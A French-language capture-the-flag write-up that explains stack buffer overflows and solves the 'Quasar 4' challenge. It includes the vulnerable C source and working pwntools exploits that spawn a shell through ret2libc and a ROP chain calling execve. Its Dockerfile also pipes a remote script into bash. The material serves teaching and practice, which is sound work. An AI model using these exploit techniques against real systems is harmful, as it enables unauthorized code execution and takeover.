

# Les failles buffer overflow

Chaque processus qui s’exécute sur un système d’exploitation possède 
un espace mémoire  virtuel. La mémoire physique est en effet partagée 
par tout le système et l’espace mémoire virtuelle est dédié à un 
processus. Cet espace mémoire contient :

- le binaire du programme

- les librairies

- la heap (pour les variables alloue de façon dynamique)

- la stack ou pile (pour les variables locales des fonctions)

- différents espaces mémoire allouer par le programme

- etc


Le problème c’est que les programmes stockent au même endroit des  données pouvant être contrôlées par l’utilisateur et des données qui contrôlent le cours d'exécution du programme. 

## 

### La stack

La stack est une structure de données utilisée par les fonctions pour
 stocker et utiliser des variables locales. Le processeur utilise 2 
instructions pour placer et retirer des données de la stack, `PUSH` pour pousser des données, et `POP` pour retirer. La stack fonctionne sur le principe de `LIFO` (last in, first out).


Le registre ESP du processeur pointera sur le début de la stack. 

Le registre EBP pointera sur la base de la stack frame.

Chaque fonction qui est appelée va se réserver un espace sur la stack 
que l’on nomme une `stack frame`. juste avant que la nouvelle stack frame soit creer le programme va pousser sur la stack une sauvegarde de ebp et du registre `eip` qui contient l'adresse de l'instruction suivant l'appel de la fonction.

Pour que le programme puisse retourner à l’instruction suivant 
l’appel de la fonction, l’adresse de l’instruction suivante sera aussi 
placée sur la stack. Aussi a chaque instructions exécuter par le 
processeurs le registre **eip** (return pointer) contiendra l’adresse de la prochaine instruction.

## Le buffer overflow

Une faille buffer overflow se produit lorsqu’un programme tente 
d’écrire un nombre de données qui dépasse les limites d’un buffer. Les 
valeurs des variables ainsi que les adresses placer sur la stack frame 
seront écrasés par les données qui déborde du buffer.

L’exploitation d’un dépassement de tampon nous permet  de 
contrôler ou de faire crasher un processus ou de modifier ses variables 
internes.

Les données originales de la stack frame comprennent le return 
pointer (l’adresse de retour)  de la fonction exploitée, c’est-à-dire 
l’adresse à laquelle le programme doit se rendre ensuite. Cependant, 
on peut définir de nouvelles valeurs en écrasant les données de
 la stack, pour ainsi pointer vers une adresse de son choix. On
 définit généralement les nouvelles valeurs à une adresse où se trouve 
le code malveillant. Ce changement modifie le cours 
de l’exécution du programme et transfère le contrôle au code malveillant.


## Quasar 4

Commençons par se mettre a l'aise pour résoudre ce challenge. Cette vidéo montre comment setup un environnement pour les challenges sur la corruption de mémoire.

Avec docker nous pouvons invoquer un container avec les outils préinstallés. Voici mon `Dockerfile`:

```dockerfile
#### Commandes :
# docker build -t ctf:debian4.19 .
# docker run --rm -v $PWD:/pwd --cap-add=SYS_PTRACE --security-opt seccomp=unconfined -d --name ctf -i ctf:debian4.19
# docker exec -it ctf /bin/bash

FROM debian:10

RUN dpkg --add-architecture i386 && \
apt-get update && \
apt-get install -y build-essential jq strace ltrace curl wget rubygems gcc dnsutils netcat gcc-multilib \
net-tools vim gdb gdb-multiarch python python3 python3-pip python3-dev libssl-dev libffi-dev wget git make \
procps libpcre3-dev libdb-dev libxt-dev libxaw7-dev python-pip libc6:i386 libncurses5:i386 libstdc++6:i386 && \
pip install capstone requests pwntools r2pipe && \
pip3 install pwntools keystone-engine unicorn capstone ropper && \
mkdir tools && cd tools && \
git clone https://github.com/JonathanSalwan/ROPgadget && \
git clone https://github.com/radare/radare2 && cd radare2 && sys/install.sh

RUN bash -c "$(curl -fsSL http://gef.blah.cat/sh)"
```

Pour que notre binaire s'exécute sans souci et aussi pour que les offsets de la libc restent les mêmes que sur la machine Quasar. Il faut récupérer et remplacer le fichier libc.so.6 dans notre container par celui de Quasar.

Avec `ldd` nous pouvons voir à quelle libc notre binaire est liée et son emplacement.


Analysons le code source du binaire :

```c
#include <stdio.h>
#include <string.h>

// gcc -m32 quasar4.c -o quasar4

int main(int argc, char **argv) {
        int id = 0;
        char buffer[1024];

        memset(buffer, 0, strlen(buffer));

        printf("printf() address is : %p\n", (void*) printf);    // leak de la fonction printf
        printf("enter an array id : ");

        scanf("%d", &id);    // id est 2 instructions plus bas utiliser comme index pour notre buffer 
        printf("enter a string : ");

        scanf("%s", &buffer[id]); // pas de verification de la taille de l'entree nous avons notre buffer overflow
        printf("buffer[%d] => %s", id, &buffer[id]);
        return 0;
}
```

Checkons quelles sont les sécurités appliquées sur notre binaire:

`checksec ./quasar4`


Nous pouvons voir NX et PIE sont actives.

NX : Nous ne pourrons pas exécuter un shellcode sur la stack. La stack est rendu non exécutable.

Il faudra donc utiliser des bouts de code assembleur que l'on nomme gadget que l'on retrouve dans notre binaire ou dans notre libc pour que le programme fasse ce qu'on lui dit.

PIE: l'ASLR est active. Cela implique que nous devrons trouver les adresses de nos gadgets quand le programme est en cours d'exécution.

Mais il faut d'abord rediriger le cours d'exécution du programme vers nos gadgets. Déclenchons le buffer overflow.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./quasar4')

raw_input("attach gdb")    # nous laisse le temps d'attacher un debugger au programme

flow = cyclic(100)    # genere un pattern avec une longueur de 100 char

p.sendline(b"1040")    # met id a 1040

p.sendline(flow)    # on envoie en entree notre pattern de 100 char au programme

p.interactive()
```


Notre programme a crashé et nous pouvons voir que le registre `eip` contient `eaaa`

nous contrôlons donc le cours d'exécution du programme.

Pour trouver combien de caractère il nous faut pour écraser eip j'utilise `cyclic_find`:


Maintenant que nous contrôlons eip ou allons à quelle adresse allons nous faire notre programme sauter. La libc contient des fonctions qui nous aident lorsque nous écrivons nos programmes. Par exemple lorsque notre programme fait appel a printf, il va se rendre dans la libc pour exécuter la fonction printf. On peut trouver dans la libc des fonctions comme `system` et `execve,` qui nous serons utiles pour prendre le contrôle de la machine.

Nous pouvons trouver l'offset de ces fonctions avec `readelf -s ./libc.so.6 | grep "system"` :


Grâce au leak de la fonction printf présent dans le programme nous pourrons calculer et trouver la vraie adresse des fonctions dans notre libc et de nos gadgets.

```python
p.recvuntil(b"0x")
leak = int(p.recv(8), 16)
log.info(f"leak={hex(leak)}")
```

Le calcul consiste à soustraire le leak de l'offset de la fonction `printf` dans `libc` ce qui nous donnera l'adresse de la base de la `libc`.

 `readelf -s ./libc.so.6 | grep "printf"`

Maintenant il nous suffira d'ajouter à chaque offset de fonction ou de gadget l'adresse de la base de la libc.

```python
printf_offset = 0x52860
base_address_libc = leak - printf_offset

system_offset = 0x3e9e0
system_address = base_address_libc + system_offset
```

Vérifions si notre libc contient la chaine de caractère `"/bin/sh"` afin de faire notre programme executer `system("bin/sh")`.

`strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"`


Il suffit maintenant de placer l'adresse de notre fonction system suivie de celle de notre chaine de caractère `/bin/sh`:

```python
binsh_offset = 0x17eaaa
binsh_addr = base_address_libc + binsh_offset

p.sendline("1040")

flow = b"T" * 16
flow2 = b"T" * 4

#nope = b"\x90" * 4

summon = [
        flow,
        p32(system_address),
        flow2,
        p32(binsh_addr),

]

summon = b"".join(summon)

p.sendline(summon)

p.interactive()
```

Et BOUM! nous avons invoqué un shell à partir du binaire ...... mais sans les droits du user de quasar5 :sweat_smile:

Voici une autre version de l'exploit permettant d'exécuter d'autres fonctions avec une mini rop chain, ici la fonction execve :

```python
#!/usr/bin/env python3

from pwn import *

p = process("./quasar4")
#gdb.attach(p)

elf = ELF('./quasar4')

#p = gdb.debug("./vuln")
raw_input("attach gdb")
p.recvuntil(b"0x")
leak = int(p.recv(8), 16)
log.info(f"leak={hex(leak)}")

printf_offset = 0x52860
base_address_libc = leak - printf_offset

system_offset = 0x3e9e0
system_address = base_address_libc + system_offset

binsh_offset = 0x17eaaa
binsh_addr = base_address_libc + binsh_offset
log.info(f"binsh_addr={hex(binsh_addr)}")

execve_offset = 0xc0470
execve_addr = base_address_libc + execve_offset

#pop_ebx = 0x101e
pop_ebx = base_address_libc + 0x0001a8b5
#pop_edx = base_address_libc + 0x02ee7c
pop_ecx_edx = base_address_libc + 0x2ee7b
xor_eax = base_address_libc + 0x2fe1f
inc_eax = base_address_libc + 0x00137725
ret_gad = base_address_libc + 0x099b2
int_0x80 = base_address_libc + 0x2f275
add_eax_0xb = base_address_libc + 0x0015b0c6

p.sendline(b"1040")

flow = b"T" * 16
flow2 = b"T" * 4

summon = [
    flow,
    p32(pop_ebx),
    p32(binsh_addr),
    p32(pop_ecx_edx),
    p32(0x0),
    p32(0x0),
    p32(xor_eax),
    p32(add_eax_0xb),
    p32(int_0x80),
]

summon = b"".join(summon)

p.sendline(summon)

p.interactive()
```


# Command list

```bash
ldd ./quasar4    # check libc version and location
```

### Gef

```bash
gdb -q -p `pidof quasar4`
```


```c
(gdb) vm    // show mapping of virtual memory
(gdb) p system    // print the location of system
(gdb) 
```

### Search symbols

```bash
readelf -s ./libc.so.6 | grep "printf"
objdump -d ./a.out | grep "<strcpy@plt>:"
```

### Search strings

```bash
strings -a -t x /lib32/libc.so.6 | grep "/bin/sh"
```

### ROP

```bash
ROPgadget --binary quasar4 | grep ""
```
